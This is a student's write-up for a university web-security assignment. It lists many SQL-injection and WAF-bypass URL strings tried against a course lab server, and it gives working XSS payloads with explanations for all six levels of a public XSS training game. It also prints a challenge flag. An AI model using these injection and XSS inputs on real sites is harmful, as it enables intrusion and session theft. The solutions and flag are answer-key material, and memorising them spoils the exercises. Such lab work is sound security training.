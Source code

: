 # Writeup 1 - Web I

Name: Marco Roxas
Section: 0101

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement: Marco Roxas


### Part 1 (40 Pts)

Such a Quick Little, website!  [http://142.93.136.81:5000/](http://142.93.136.81:5000/)

I wasn't able to find a way to obtain the flag despite a good hint from an instructor. There's a WAF (Web App Firewall) that is active on the server which I'm not able to find a way to bypass in the time allotted.

Some URL strings that I tried were the following (with some comments):

~~~~
http://142.93.136.81:5000/item?id=OR'1'='1'
http://142.93.136.81:5000/item?id=1&NOT('1'!='1')
http://142.93.136.81:5000/item?id=0&!(1!=1)
http://142.93.136.81:5000/item?id=R O{$id} 1=1;--
http://142.93.136.81:5000/item?id=R "O{$id}" 1=1;--
http://142.93.136.81:5000/item?id=R"O{$id}"1=1;--
http://142.93.136.81:5000/item?id=1OR"O{$id}"1=1;--
http://142.93.136.81:5000/item?1=1&id=1&1=1
http://142.93.136.81:5000/item?1 OR 1&id=1;--
http://142.93.136.81:5000/item?1&id=1;--
http://142.93.136.81:5000/item?1&id=1
http://142.93.136.81:5000/item?1&id=1&1OR1
http://142.93.136.81:5000/item?1&id=1 OR 1=1
~~~~

Basic ideas were tried above, some of which triggered the WAF. It was hoped that using the PHP `$` with variable names can result in bypassing the WAF.

~~~~
http://142.93.136.81:5000/item?id=0 {$name[1]}{$name[2]} 1=1;--
http://142.93.136.81:5000/item?id=0 $name[1]$name[2] 1=1;--
http://142.93.136.81:5000/item?id=0 $name{2}$name{3} 1=1;--
http://142.93.136.81:5000/item?id=0 $name{0}$name{2} 1=1;--
http://142.93.136.81:5000/item?id=0 "$name{1}$name{2}" 1=1;--
http://142.93.136.81:5000/item?id=0&$name[1]$name[2] 1=1;--
http://142.93.136.81:5000/item?id=0 O$name[2] 1=1;--
http://142.93.136.81:5000/item?id=0 O$name[3] 1=1;--
http://142.93.136.81:5000/item?id=0 $name[1]R 1=1;--
http://142.93.136.81:5000/item?id=0 $name[2]R 1=1;--
http://142.93.136.81:5000/item?id=0 $name[3]R 1=1;--
http://142.93.136.81:5000/item?id=O {$id}R 1=1;--
http://142.93.136.81:5000/item?id=0 and $name{1}$name{2} 1=1;--
~~~~

This is a continuation of utilizing `$`. A nonsensical reference of `$name[1]` was tried since the name field started with `Fortnite` (the word OR is embedded).

~~~~
http://142.93.136.81:5000/item?id=0 " . " OR 1=1;--"
http://142.93.136.81:5000/item?id=0 " . echo \'O\' . "R 1=1;--"
http://142.93.136.81:5000/item?id=0 " . echo "O" . "R 1=1;--"
http://142.93.136.81:5000/item?id=0 " . "O" . "R 1=1;---"
http://142.93.136.81:5000/item?id=0 "."O"."R 1=1;--"
http://142.93.136.81:5000/item?id=2 O" . "R 1=1;--"
http://142.93.136.81:5000/item?id=1 O\0x52 1=1;--"
http://142.93.136.81:5000/item?id=1 O\x52 1=1;--"
http://142.93.136.81:5000/item?id=0 O\122 1=1;--"
http://142.93.136.81:5000/item?id=0 O\R 1=1;--"
http://142.93.136.81:5000/item?id=0 Or 1=1;--"
http://142.93.136.81:5000/item?id=0 \OR 1=1;--"
http://142.93.136.81:5000/item?id=0 \O\x52 1=1;--"
http://142.93.136.81:5000/item?id=1 O" . "R 1=1;--"
http://142.93.136.81:5000/item?id=1 O" "R 1=1;--"
http://142.93.136.81:5000/item?id=0 OR 1=1;--"
http://142.93.136.81:5000/item?id=0 " . "O" . "R 1=1;--"
http://142.93.136.81:5000/item?id=0 " . "O_R 1=1;--"
http://142.93.136.81:5000/item?id=0 ORO 1=1;--
http://142.93.136.81:5000/item?id=0 " . $name[2] . $name[3] ." 1=1;--"
http://142.93.136.81:5000/item?id=0 " . "O" . "R" ." 1=1;--"
http://142.93.136.81:5000/item?id=0 O{$chr(0x52)} 1=1;--"
http://142.93.136.81:5000/item?id=0 O{$chr(82)} 1=1;--"
http://142.93.136.81:5000/item?id=0 . O{$chr(82)} . 1=1;--"
http://142.93.136.81:5000/item?id=0 {$name[1]}{$name[2]} 1=1;--"
http://142.93.136.81:5000/item?id=0 $OR 1=1;--"
http://142.93.136.81:5000/item?id=0 \O\R 1=1;--
http://142.93.136.81:5000/item?id=0 O{$nul}R 1=1;--
http://142.93.136.81:5000/item?id=0 OQ%08R 1=1;--
http://142.93.136.81:5000/item?id=0 O{$_}R 1=1;--
http://142.93.136.81:5000/item?id=0 O/R 1=1;--
http://142.93.136.81:5000/item?id=0 O.R.1=1;--
http://142.93.136.81:5000/item?id=0 CHAR(79)CHAR(82) 1=1;--
http://142.93.136.81:5000/item?id=999999999999999999999999999999999
http://142.93.136.81:5000/item&1=1
http://142.93.136.81:5000/item?id=$PHP_MINOR_VERSION
http://142.93.136.81:5000/item?id=0 O" . "R 1=1;--"
http://142.93.136.81:5000/item?id=0 O#R 1=1;--
http://142.93.136.81:5000/item?id=0&O##R&1=1;--
http://142.93.136.81:5000/item?id=0+O##R+1=1;--
http://142.93.136.81:5000/item?id=0+O%%R+1=1--
http://142.93.136.81:5000/item?id=0 \O\R 1=1; --
~~~~

Finally a few more ideas were tried as shown above, such as utilizing other encodings `0x52` and the SQL `CHAR()` function (which was not the correct usage).  Interestingly using `$PHP_MINOR_VERSION` triggered the WAF while a shorter `$PHP_MIN` did not. Bypassing the WAF was also attempted by using `#` or `%`.

For many of these a space character may have been needed between the the semicolon and comment, ie, `; --`.

There is a flag obtainable on the main web page via port 80 of the same server (`CMSC389R-{h1dd3n_1n_plain_5ight}`), however that's not part of this assignment.

### Part 2 (60 Pts)
Complete all 6 levels of:

[https://xss-game.appspot.com](https://xss-game.appspot.com)

The following inputs were used:

#### Level 1
`<script>alert('Hi');</script>` This level just needed javascript within an html `<script>` tag.

#### Level 2
`<p onclick="alert('Hi');">Hi</p>` This level displayed an element and a `<script>` tag couldn't be used. Hence the alternative `onclick` attribute was tried and worked.

#### Level 3
`https://xss-game.appspot.com/level3/frame#2.jpg'/><script>alert('Hi');</script>` An image tag needed to be terminated for this level. By right-clicking on the resulting broken image icon and selecting View Image, the proper syntax to use was shown, and with some trial and error a string with starting `'/><script>` was found to work.

#### Level 4
`'+alert(5)+'` I realized that I needed to terminate the quote before introducing javascript code and then start a new quote afterwards (so the payload starts and ends with `''`, the empty string).

#### Level 5
`https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert('Hi')` Entering this in the URL address bar allowed an alert to be displayed, however I wasn't sure if this was the correct way, but it worked. I took a look at the page code to see that the redirect goes to `confirm.html` and a simple replacement was all that was necessary. I learned of the `javascript:` trick by looking for ways for the browser to run javascript.

#### Level 6
`https://xss-game.appspot.com/level6/frame#data:,alert('Hi');` Also entering this in the URL address bar allowed an alert to be displayed to load the external file, which is in actuality is a data URL. It helped to view the browser console of any messages to know how it was used as a src attribute.
